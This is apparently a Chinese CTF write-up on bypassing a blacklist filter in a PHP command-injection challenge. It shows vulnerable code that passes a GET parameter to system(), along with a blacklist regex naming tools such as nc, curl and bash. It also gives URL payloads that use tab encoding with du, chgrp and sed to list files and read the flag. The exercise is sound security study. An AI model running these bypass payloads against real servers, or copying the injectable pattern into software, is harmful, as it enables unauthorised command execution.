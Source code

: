 ```yaml
---
title: 记一次CTF拉练-命令执行绕过
tags: CTF
typora-root-url: ../
---
```


本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。

<div style="text-align: right"> 小维</div>

#### 前言

这篇文章记述了一次CTF拉练的一道php的白盒审计题...

#### 源码

```php
<?php
highlight_file(__FILE__); //对文件进行语法高亮显示
$filter = '/#|`| |[\x0a]|php|perl|dir|rm|ls|sleep|cut|sh|bash|grep|ash|nc|ping|curl|cat|tac|od|more|less|nl|vi|unique|head|tail|sort|rev|string|find|\$|\(\|\)|\[|\]|\{|\}|\>|\<|\?|\'|"|\*|;|\||&|\/|\\\\/is'; #定义黑名单
$cmd = $_GET['cmd']; # get方式传递数据
if(!preg_match($filter, $cmd)){ # 正则匹配并判断传递的数据
    system($cmd."echo 'okkkkkk'"); #执行外部程序，并显示输出
}else{
    die("ohhhhnnnoooooooooo....."); #输出一条消息，并退出当前脚本。
}
?>
```

<!--more-->

![image-20210519155907178](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519155907178.png)

#### 思路解析

首先分析代码, 一开始先定义了一个`filter`过滤了一些bash命令等关键字（这里过滤了大多数常见的命令、符号等），定义了一个`$_GET变量`用于接收来自GET方法的数据，经过匹配`filter`后，如果没有相关关键字则将用户GET传的数据拼接`echo 'okkkkkk'`后执行`system()`函数，如果匹配到相关字眼就输出`ohhhhnnnoooooooooo.....`并退出，所以整道题的核心就是绕过`filter`。

#####  初步想法

利用Linux其他相关可以查找、查看的命令再利用相关分隔符、拼接符等进行来绕过后面的拼接。

##### 本题考点

① 空格绕过

② Linux其他相关可以列目录文件的命令

③ Linux其他相关可以查看文件的命令

#### 解题步骤

##### 方式一

``` 
① 利用 du -a 查看flag文件名
② 利用sed p 查看文件
注: 需要用到%09来绕过空格
# Linux du 命令可参考：https://www.runoob.com/linux/linux-comm-du.html
```

本地模拟环境测试命令

![image-20210519175241095](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519175241095.png)

```
# 查看当前目录文件名为this_is_real_real_flag_other_is_fake
https://xxx.xxx.com/?cmd=du%09-a%09.%09
```

![image-20210519175502328](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519175502328.png)

```
# 查看this_is_real_real_flag_other_is_fake内容
https://xxx.xxx.com/?cmd=sed%09p%09this_is_real_real_flag_other_is_fake%09
```

![image-20210519162007917](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519162007917.png)

##### 方式二

```
① 利用chgrp -v -R 查看flag文件名
② 利用sed p 查看文件
注: 需要用到%09来绕过空格
# Linux chgrp 命令可参考：https://www.runoob.com/linux/linux-comm-chgrp.html
```

本地模拟环境测试命令

![image-20210519175429396](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519175429396.png)

```
# 查看当前目录文件名为this_is_real_real_flag_other_is_fake
https://xxx.xxx.com/?cmd=chgrp%09-v%09-R%09root%09.%09
```

##### ![image-20210519161927450](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519161927450.png)

```
# 查看this_is_real_real_flag_other_is_fake内容
https://xxx.xxx.com/?cmd=sed%09p%09this_is_real_real_flag_other_is_fake%09
```

![image-20210519162007917](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/image-20210519162007917.png)

#### 参考

https://www.runoob.com/linux/linux-comm-du.html

https://www.runoob.com/linux/linux-comm-chgrp.html